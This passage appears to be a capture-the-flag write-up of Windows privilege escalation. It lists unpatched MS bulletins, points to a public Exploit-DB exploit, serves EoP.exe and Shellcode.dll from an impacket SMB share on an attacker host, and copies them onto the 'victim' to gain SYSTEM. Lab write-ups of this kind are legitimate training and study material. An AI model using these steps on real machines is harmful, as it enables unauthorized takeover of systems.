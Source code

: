 ```console
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)
No Instance(s) Available.
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)
No Instance(s) Available.
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)
No Instance(s) Available.
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)
No Instance(s) Available.
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)
No Instance(s) Available.
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)
No Instance(s) Available.
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)
No Instance(s) Available.
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)
No Instance(s) Available.
MS04-020 patch is NOT installed 2K/SP4-POSIX)
No Instance(s) Available.
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)
No Instance(s) Available.
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)
No Instance(s) Available.
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)
No Instance(s) Available.
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)
No Instance(s) Available.
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)
No Instance(s) Available.
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)
No Instance(s) Available.
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)
```
Using the exploit from https://www.exploit-db.com/exploits/39788 and following links will get us 2 files to download and transfer.

Set up the file server again and copy it to the victim.

```console
└──╼ [★]$ sudo impacket-smbserver rogue . 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

```console
c:\temp>copy \\10.10.14.41\rogue\EoP.exe
copy \\10.10.14.41\rogue\EoP.exe
        1 file(s) copied.

c:\temp>copy \\10.10.14.41\rogue\Shellcode.dll
copy \\10.10.14.41\rogue\Shellcode.dll
        1 file(s) copied.
```
Run EoP.exe and we get system!
